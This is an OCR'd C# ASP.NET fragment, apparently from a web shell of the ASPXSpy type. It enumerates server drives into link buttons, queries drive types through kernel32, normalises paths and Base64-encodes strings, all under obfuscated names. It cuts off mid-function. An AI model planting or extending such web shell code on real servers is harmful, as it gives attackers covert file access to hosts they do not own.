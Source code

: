 {
try
{
string[] YRgt=Directory.GetLogicalDrives();
for(int i=0;i<YRgt.Length;i++)
{
Control c=ParseControl(" <asp:LinkButton Text='"+mFvj(YRgt[i])+"' ID=\"Bin_Button_Driv"+i+"\" runat='server' commandargument= '"+YRgt[i]+"'/> | ");
Bin_Span_Drv.Controls.Add(c);
LinkButton nxeDR=(LinkButton)Page.FindControl("Bin_Button_Driv"+i);
nxeDR.Command+=new CommandEventHandler(this.iVk);
}
}catch(Exception ex){}
}
public string OElM(string path)
{
if(path.Substring(path.Length-1,1)!=@"\")
{
path=path+@"\";
}
return path;
}
public string nrrx(string path)
{
char[] trim={'\\'};
if(path.Substring(path.Length-1,1)==@"\")
{
path=path.TrimEnd(trim);
}
return path;
}
[DllImport("kernel32.dll",EntryPoint="GetDriveTypeA")]
public static extern int OMZP(string nDrive);
public string mFvj(string instr)
{
string EuXD=string.Empty;
int num=OMZP(instr);
switch(num)
{
case 1:
EuXD="Unknow("+instr+")";
break;
case 2:
EuXD="Removable("+instr+")";
break;
case 3:
EuXD="Fixed("+instr+")";
break;
case 4:
EuXD="Network("+instr+")";
break;
case 5:
EuXD="CDRom("+instr+")";
break;
case 6:
EuXD="RAM Disk("+instr+")";
break;
}
return EuXD.Replace(@"\","");
}
public string MVVJ(string instr)
{
byte[] tmp=Encoding.Default.GetBytes(instr);
return Convert.ToBase64String(tmp);